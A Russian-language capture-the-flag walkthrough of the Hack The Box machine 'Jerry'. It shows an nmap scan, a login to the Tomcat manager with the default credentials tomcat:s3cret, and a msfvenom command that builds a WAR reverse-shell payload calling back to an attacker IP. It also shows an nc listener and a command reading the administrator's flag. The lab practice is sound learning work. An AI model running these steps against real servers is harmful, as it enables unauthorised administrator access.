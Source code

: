 # 🟢 Jerry(Windows, Easy)

![](<../.gitbook/assets/1 (1) (1) (1).png>)

### Содержание:

В самом начале мы сканируем порты и обнаруживаем только один порт. На данном порту расположен tomcat. Используя дефолтные значения, заходим в панель tomcat и загружаем туда war-эксплоит, который даст нам реверс шелл, который будет уже с правами админа.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.95 -oN nmap
```

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
```

### Входим с помощью дефолтных данных:

На 8080 порту мы видим tomcat:

![](<../.gitbook/assets/2 (1) (1) (1).png>)

Можем перейти на /manager/html и использовать дефолтные креды, чтобы попасть в панель админа:

`tomcat:s3cret`

![](<../.gitbook/assets/3 (1) (1) (1) (1).png>)

### Создаем war эксплоит с помощью msfvenom:

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.43 LPORT=9898 -f war > shell.war
```

Загружаем в tomcat:

![](<../.gitbook/assets/4 (1) (1).png>)

Ставим листенер:

```
$ nc -nlvp 9898
```

### Запускаем эксплоит и получаем администратора:

Заходим по [http://10.10.10.95:8080/shell](http://10.10.10.95:8080/shell) и получаем шелл. Изначально оболочка получается сразу от имени админа, можно прочитать файл с флагом с помощью данной команды:

```
C:\Users\Administrator\Desktop\flags>type "C:\Users\Administrator\Desktop\flags\2 f
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
```

![](<../.gitbook/assets/5 (4).png>)
